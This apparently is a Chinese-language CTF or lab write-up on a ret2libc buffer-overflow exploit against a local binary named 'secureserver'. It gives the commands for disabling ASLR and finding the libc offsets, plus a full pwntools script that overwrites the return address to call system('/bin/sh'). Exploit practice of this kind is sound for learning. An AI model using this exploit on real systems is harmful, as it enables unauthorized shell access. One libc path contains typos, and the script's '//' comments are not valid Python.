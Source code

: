 然后我们要找到libc库的地址
```
ldd secureserver
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/7cc2d833b86c41c2810fe9d1f132185f.png)


但是每一次运行都是不同的位置，因为开启了地址空间随机化来防止缓冲区溢出攻击

![在这里插入图片描述](https://img-blog.csdnimg.cn/fd174eea594148c098ecda08b003bee4.png)


现在我们关闭这个防护
```
echo 0 > /proc/sys/kernel/randomize_va_space
```
然后再次查看libc库的地址

![在这里插入图片描述](https://img-blog.csdnimg.cn/8798c559f247420e91af0b5393e5fc68.png)

现在地址就不会变了，然后我们要找到system函数的地址，用他来执行/bin/sh，获得shell


```
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep "system"
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/cfd83494f1534cfcac6814789cd613ee.png)

现在我们有了system的偏移地址，现在我们还需要/bin/sh的偏移地址，因为/bin/sh是字符串，不是函数，所以我们要用strings工具来找到/bin/sh的偏移地址
```
strings -a -t x /lib/1386-linux-gnu/libc.so.c | grep "/bin/sh"
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/c4ced7202d9a4a2a82e081001f741c31.png)

现在万事俱备，可以写脚本了
## pwntools脚本


```
from pwn import *   //导入pwntools模块

exe = './secureserver'   //要破解的文件名
elf = context.binary = ELF(exe, checksec=False)   //自动获取程序详细信息，如架构，操作系统
io = process('./secureserver')   //启动程序
padding = 76   //覆盖eip原本的返回地址

libc = 0xf7c00000   //libc的地址
system = libc + 0x46f70   //system函数在libc里的偏移地址
bin_sh = libc + 0x1b30d0   ///bin/sh字符串在libc里的偏移地址

payload = flat(
    asm('nop') * padding,   //覆盖eip原本的返回地址
    system,   //调用system函数地址
    0x0,   //返回指针
    bin_sh  //system执行/bin/sh
)   //构造paylaod
io.sendlineafter(b':',payload)  //发送payload
io.interactive()  //获得交互
```
